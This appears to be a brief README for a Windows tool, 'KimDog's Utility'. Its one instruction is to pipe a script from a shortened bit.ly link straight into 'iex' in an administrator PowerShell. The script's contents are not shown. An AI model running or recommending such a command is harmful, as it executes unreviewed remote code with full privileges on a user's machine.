 # KimDog's Utility

Run: [ iwr -useb https://bit.ly/3VDo11L | iex ] in a Powershell(Admin) to run the script! Dont include the square brackets!
